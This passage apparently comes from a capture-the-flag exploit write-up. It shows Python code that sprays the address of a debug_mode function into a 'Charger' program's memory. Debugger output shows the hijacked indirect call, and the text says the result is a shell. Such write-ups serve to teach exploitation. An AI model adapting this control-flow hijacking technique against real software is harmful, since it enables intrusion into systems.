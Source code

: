 ```python
create_iters = 3
payload_size = create_iters * 8
payload = "A" * payload_size

for _ in range(create_iters):
    p.sendline("1")
    p.sendline("1")
    p.sendline(str(payload_size))
    p.sendline(payload)

p.sendline("2")
p.sendline("0")

p.sendline("6")
```

Our fuzz payload is at RAX.

```
Segmentation Fault
...

wdb> x/i $pc
0x402074 <Charger::on_port_disconnected+142>:  call rax

wdb> print $rax
$8 = 0x4141414141414141
```

Now, let's modify the payload to send the address of `Chager::debug_mode`:

```
wdb> print Charger::debug_mode
$9 = 0x402248
```

We can spray this address on each iteration of the loop:

```python
create_iters = 3
payload_size = create_iters * 8
debug_addr = p64(0x402248)
payload = b''.join([debug_addr for _ in range(create_iters)])

for _ in range(create_iters):
    p.sendline("1")
    p.sendline("1")
    p.sendline(str(payload_size))
    p.sendline(payload)
```

This gives us a shell.